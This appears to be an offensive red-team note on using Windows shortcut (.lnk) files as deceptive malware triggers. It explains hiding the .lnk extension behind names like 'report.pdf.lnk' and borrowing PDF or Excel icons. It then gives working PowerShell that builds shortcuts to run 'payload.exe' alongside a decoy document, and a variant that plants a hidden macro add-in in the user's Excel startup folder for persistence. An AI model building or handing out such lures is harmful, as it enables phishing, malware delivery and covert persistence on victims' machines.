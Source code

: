 A shell link is a binary file format used to create Windows shortcuts.  They have the `.lnk` file extension which is special in that it's not shown in Explorer, even when 'show file name extensions' is enabled.  This allows them to have filenames such as `report.pdf.lnk`, and the user will only see `report.pdf`.  Link files can also be customised to have any icon, so they could link to cmd.exe but have a PDF icon.  These properties make them one of the most deceptive triggers.

The easiest way to create a link is with the **WScript.Shell** COM object via PowerShell.

```powershell
$wsh = New-Object -ComObject WScript.Shell
$lnk = $wsh.CreateShortcut("C:\Payloads\trigger.pdf.lnk")
$lnk.TargetPath = "%COMSPEC%"
$lnk.Arguments = "/C start payload.exe && start decoy.pdf"
$lnk.IconLocation = "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe,13"
$lnk.Save()
```

![[Pasted image 20250701224619.png]]

You may also store an ICO file as a dependency inside the container, and use that instead of one built into an existing application.

If using an Excel Add-In payload, the arguments for the shortcut should copy the XLAM file to the user's XLSTART directory before opening a decoy spreadsheet to trigger execution.

```powershell
$lnk.Arguments = "/C xcopy /H macros.xlam %APPDATA%\Microsoft\Excel\XLSTART\ && attrib -H %APPDATA%\Microsoft\Excel\XLSTART\macros.xlam && start sales.xlsx"
$lnk.IconLocation = "%ProgramFiles%\Microsoft Office\root\Office16\EXCEL.EXE,0"
$lnk.Save()
```